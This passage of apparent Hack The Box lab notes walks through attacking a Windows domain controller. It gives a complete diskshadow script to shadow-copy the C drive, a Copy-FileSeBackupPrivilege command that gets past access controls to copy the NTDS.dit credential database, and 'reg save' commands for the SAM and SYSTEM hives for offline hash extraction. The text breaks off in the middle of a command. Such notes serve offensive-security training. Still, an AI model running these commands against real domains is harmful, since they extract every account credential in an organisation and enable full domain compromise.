 ```powershell
```

- **Attacking a Domain Controller - Copying NTDS.dit**
    - As the NTDS.dit file is locked by default, we can use the Windows diskshadow utility to create a shadow copy of the C drive and expose it as E drive. 
    - The NTDS.dit in this shadow copy won't be in use by the system.
    ```powershell
    PS C:\htb> diskshadow.exe

    Microsoft DiskShadow version 1.0
    Copyright (C) 2013 Microsoft Corporation
    On computer:  DC,  10/14/2020 12:57:52 AM

    DISKSHADOW> set verbose on
    DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
    DISKSHADOW> set context clientaccessible
    DISKSHADOW> set context persistent
    DISKSHADOW> begin backup
    DISKSHADOW> add volume C: alias cdrive
    DISKSHADOW> create
    DISKSHADOW> expose %cdrive% E:
    DISKSHADOW> end backup
    DISKSHADOW> exit

    PS C:\htb> dir E:


        Directory: E:\


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----         5/6/2021   1:00 PM                Confidential
    d-----        9/15/2018  12:19 AM                PerfLogs
    d-r---        3/24/2021   6:20 PM                Program Files
    d-----        9/15/2018   2:06 AM                Program Files (x86)
    d-----         5/6/2021   1:05 PM                Tools
    d-r---         5/6/2021  12:51 PM                Users
    d-----        3/24/2021   6:38 PM                Windows
    ```
    - Copying NTDS.dit Locally
    ```powershell
    # We can use the Copy-FileSeBackupPrivilege cmdlet to bypass the ACL and copy the NTDS.dit locally.
    PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

    Copied 16777216 bytes
    ```

    - Backing up SAM and SYSTEM Registry Hives
        - The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's secretsdump.py
        ```powershell
        C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV
